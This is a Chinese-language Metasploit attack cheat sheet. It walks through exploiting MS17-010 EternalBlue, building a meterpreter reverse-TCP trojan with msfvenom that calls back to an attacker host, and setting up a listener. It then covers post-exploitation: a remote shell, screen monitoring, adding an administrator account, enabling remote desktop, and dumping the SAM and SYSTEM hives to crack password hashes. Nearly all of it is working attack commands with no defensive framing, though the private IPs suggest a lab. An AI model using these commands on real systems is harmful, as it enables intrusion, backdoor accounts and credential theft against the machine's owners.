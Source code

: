 [toc]
# msfconsole攻击
## 一、漏洞利用
### 1.ms17-010
 search ms17-010	//搜索插件
use exploit/windows/smb/ms17_010_eternalblue  //use利用这个插件，也可以用序号的方式
set rhost 192.168.1.1		//设置靶机的ip
set rport 445		//设置端口


## 二、生成木马文件攻击
1.生成木马

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.107.132 lport=6789 -f exe -o /root/yhdxtn.exe

注意：这里的ip是kali的ip(192.168.107.132 ) 。

          端口是6789



2.输入msfconsole命令启动Metasploit工具



3.使用handler

use exploit/multi/handler



4.设置payload为刚才反向远程控制程序名称

set payload windows/meterpreter/reverse_tcp



5.设置一个IP(lhost)和端口(lport)

set lhost 192.168.107.132

set lport 6789





6.执行“exploit”开启监听


## 三、meterpreter 下攻击
#### 1.打开cmd
shell 
如果乱码可以输入chcp 65001更改编码
#### 2.监控屏幕
run vnc
#### 3.文件传输
meterpreter > download c:\\system.hive 
#### 4.开启远程控制
run getgui -e
#### 5.破解密码
a、msfconsole链接到目标靶机
  shell下建用户
net user  tanglx 1234 /add
  shell下设为管理员权限
net localgroup administrators tanglx /add
  meterpreter >下开启远程登录
run getgui -e

b、之后remmina里面远程登录这个用户，导出注册表里面的用户信息，进行破解用户密码
1.用管理员权限打开cmd
2.cmd下输入
reg save hklm/sam c:\sam.hive
reg save hklm/system c:\system.hive

c、破解计算机用户密码
1.msfconsole下输入下面两条命令下载靶机c盘下的注册表文件
meterpreter > download c:\\sam.hive          
meterpreter > download c:\\system.hive        
2.打开kali
samdump2 system.hive sam.hive >> pass
john --format=NT pass        
